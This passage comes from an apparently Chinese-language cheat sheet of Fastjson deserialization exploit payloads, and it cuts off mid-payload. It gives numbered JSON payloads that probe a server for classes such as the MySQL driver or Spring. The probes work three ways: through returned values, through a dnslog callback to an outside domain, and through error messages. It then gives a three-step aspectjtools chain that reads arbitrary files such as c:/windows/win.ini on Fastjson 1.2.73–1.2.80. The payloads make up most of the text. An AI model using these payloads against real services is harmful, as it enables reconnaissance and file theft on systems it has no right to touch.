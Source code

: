 ```
org.springframework.web.bind.annotation.RequestMapping
org.apache.catalina.startup.Tomcat
groovy.lang.GroovyShell
com.mysql.jdbc.Driver
java.net.http.HttpClient
```
`payload34`：
```json
{"z": {"@type": "java.lang.Class","val": "org.springframework.web.bind.annotation.RequestMapping"}}
```
如果系统存在这个类，会返回一个类实例；如果不存在会返回`null`。
例如：
![存在，返回类实例](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697709092447-0077cd01-74c0-49b6-bf29-bdd4e5997560.png#averageHue=%23a2d6d1&clientId=u34d78b8a-7ddf-4&from=paste&height=323&id=u91402718&originHeight=323&originWidth=1600&originalType=binary&ratio=1&rotation=0&showTitle=true&size=63648&status=done&style=none&taskId=u81431106-e26c-4898-b373-47fe7111cff&title=%E5%AD%98%E5%9C%A8%EF%BC%8C%E8%BF%94%E5%9B%9E%E7%B1%BB%E5%AE%9E%E4%BE%8B&width=1600 "存在，返回类实例")
![不存在，返回空值](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697709524535-60a323c8-ae51-4de2-85ee-1b549fdbc79e.png#averageHue=%2384c1dd&clientId=u34d78b8a-7ddf-4&from=paste&height=446&id=u70f4b72a&originHeight=446&originWidth=1593&originalType=binary&ratio=1&rotation=0&showTitle=true&size=60566&status=done&style=none&taskId=u065e5dbb-5654-4a7e-921a-4106461360c&title=%E4%B8%8D%E5%AD%98%E5%9C%A8%EF%BC%8C%E8%BF%94%E5%9B%9E%E7%A9%BA%E5%80%BC&width=1593 "不存在，返回空值")
## 3.2 dnslog回显判断法
`payload35`：
```json
{"@type":"java.net.Inet4Address","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{1:{"@type":"java.lang.Class","val":"com.mysql.jdbc.Driver"}},"country":"aaa.qmc8xj4s.dnslog.pw"}}}
```
只有`MacOS`可以`ping`带花括号的域名，`Linux`和`Windows`会报错，所以该`payload`需要特定环境才可以。
## 3.3 报错回显判断法
`payload36`：
```json
{"x": {"@type": "java.lang.Character"{"@type": "java.lang.Class","val": "com.mysql.jdbc.Driver"}}
```
![报错](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697766482187-414c1b41-2d60-4b08-bb6e-a631f8579b1c.png#averageHue=%239fd5d6&clientId=uaa1753b3-0a32-4&from=paste&height=350&id=u3425e5a6&originHeight=350&originWidth=1591&originalType=binary&ratio=1&rotation=0&showTitle=true&size=67695&status=done&style=none&taskId=u717287d6-43e6-4a12-b197-bcc5bca16b5&title=%E6%8A%A5%E9%94%99&width=1591 "报错")
![不报错](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697766568952-dc4b6166-67a6-481e-a096-94484b44711c.png#averageHue=%2326282b&clientId=uaa1753b3-0a32-4&from=paste&height=992&id=u18c72fcf&originHeight=992&originWidth=1384&originalType=binary&ratio=1&rotation=0&showTitle=true&size=168392&status=done&style=none&taskId=u14974c3f-6c1e-4ccf-bf6f-9d70e272516&title=%E4%B8%8D%E6%8A%A5%E9%94%99&width=1384 "不报错")
# 四、文件读取

## 4.1 fastjson【1.2.73<=version<=1.2.80】

### 4.1.1 aspectjtools

#### 4.1.1.1 直接回显法

`payload37`（组合拳）：
可以分三次打：
```json
{
    "@type":"java.lang.Exception",
    "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"
}
```
```json
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{ "@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}}
```
```json
{
    "username":{
        "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit",
        "@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
        "fileName":"c:/windows/win.ini"
    },
    "password":"admin"
```